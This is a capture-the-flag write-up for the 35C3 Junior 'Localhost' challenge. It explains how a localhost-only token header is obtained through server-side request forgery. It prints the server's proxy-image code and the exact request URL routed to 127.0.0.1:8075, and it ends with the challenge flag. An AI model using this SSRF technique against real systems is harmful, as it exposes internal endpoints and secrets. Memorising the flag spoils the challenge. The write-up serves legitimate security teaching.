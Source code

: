 # Localhost

>Solves: 69

>We came up with some ingenious solutions to the problem of password reuse. For users, we don't use password auth but send around mails instead. This works well for humans but not for robots. To make test automation possible, we didn't want to send those mails all the time, so instead we introduced the localhost header. If we send a request to our server from the same host, our state-of-the-art python server sets the localhost header to a secret only known to the server. This is bullet-proof, luckily.

>http://35.207.132.47/

>Difficulty Estimate: Medium

## Analysis

This is another one of wee challenges so source code is available in /pyserver/server.py.

Mechanism for discovering LOCALHOST flag is discovered in following code:

```python

if not request.path[-3:] in ["jpg", "png", "gif"]:
        response.headers["X-Frame-Options"] = "SAMEORIGIN"
        response.headers["X-Xss-Protection"] = "1; mode=block"
        response.headers["X-Content-Type-Options"] = "nosniff"
        response.headers["Content-Security-Policy"] = "script-src 'self' 'unsafe-inline';"
        response.headers["Referrer-Policy"] = "no-referrer-when-downgrade"
        response.headers["Feature-Policy"] = "geolocation 'self'; midi 'self'; sync-xhr 'self'; microphone 'self'; " \
                                             "camera 'self'; magnetometer 'self'; gyroscope 'self'; speaker 'self'; " \
                                             "fullscreen *; payment 'self'; "
        if request.remote_addr == "127.0.0.1":
            response.headers["X-Localhost-Token"] = LOCALHOST

    return response
```

If request path does not end in "jpg", "png" or "gif" and remote address is equal to 127.0.0.1 flag is discovered.

## Solution
NOTE: Solution requires being already logged in, see [logged in writeup](https://github.com/HackThisSite/CTF-Writeups/tree/master/2018/35C3-Junior/Logged-in)
Since it's necessary that request originates from localhost I started searching for some kind of proxying functionality in code and found "/api/proxyimage".

```python
@app.route("/api/proxyimage", methods=["GET"])
def proxyimage():
    url = request.args.get("url", '')
    parsed = parse.urlparse(url, "http")  # type: parse.ParseResult
    if not parsed.netloc:
        parsed = parsed._replace(netloc=request.host)  # type: parse.ParseResult
    url = parsed.geturl()

    resp = requests.get(url)
    if not resp.headers["Content-Type"].startswith("image/"):
        raise Exception("Not a valid image")

    # See https://stackoverflow.com/a/36601467/1345238
    excluded_headers = ['content-encoding', 'content-length', 'transfer-encoding', 'connection']
    headers = [(name, value) for (name, value) in resp.raw.headers.items()
               if name.lower() not in excluded_headers]

    response = Response(resp.content, resp.status_code, headers)
    return response

```

It requires response's Content-Type to start with image or it throws out error, but flag giving mechanism blocked gif, png and jpg files.
Luckily for us those are not only image formats, on frontpage there is svg file http://35.207.132.47/img/paperbots.svg which satisfies all our conditions.

We can try to get flag with http://35.207.132.47/api/proxyimage?url=http://127.0.0.1/img/paperbots.svg and...we get a Connection Refused error.
Perhaps it's not ran on port 80? Indeed examining source code discovers following: ```app.run(host="0.0.0.0", port=8075)```

We retry with http://35.207.132.47/api/proxyimage?url=http://127.0.0.1:8075/img/paperbots.svg and get a flag in X-Localhost-Token

35C3_THIS_HOST_IS_YOUR_HOST_THIS_HOST_IS_LOCAL_HOST

